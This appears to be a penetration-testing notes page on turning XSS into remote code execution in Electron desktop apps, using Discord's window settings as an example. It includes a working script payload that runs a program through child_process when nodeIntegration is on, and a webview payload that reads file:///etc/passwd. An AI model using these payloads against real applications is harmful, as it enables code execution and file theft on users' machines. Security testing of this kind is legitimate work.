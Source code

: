 # XSS to RCE Electron Desktop Apps

Recommended read for more trick: [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

When I test Electron app, first I always check the options of the [BrowserWindow API](https://www.electronjs.org/docs/api/browser-window), which is used to create a browser window. By checking it, I think about how RCE can be achieved when arbitrary JavaScript execution on the renderer is possible.  
Example:

```text
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

## nodeIntgration RCE

If the nodeIntegration is set to true, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```text
<script>
  require('child_process').exec('calc');
</script>
```

## Read Arbitrary Internal FIle

If contextIsolation set to false you can try to use &lt;webview&gt; \(similar to &lt;iframe&gt; butcan load local files\) to read local files and exfiltrate them: using something like **&lt;webview src=”file:///etc/passwd”&gt;&lt;/webview&gt;:**

![](../../.gitbook/assets/1-u1jdryuwaevwjmf_f2ttjg.png)

**\(Trick copied form** [**here**](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)**\).**

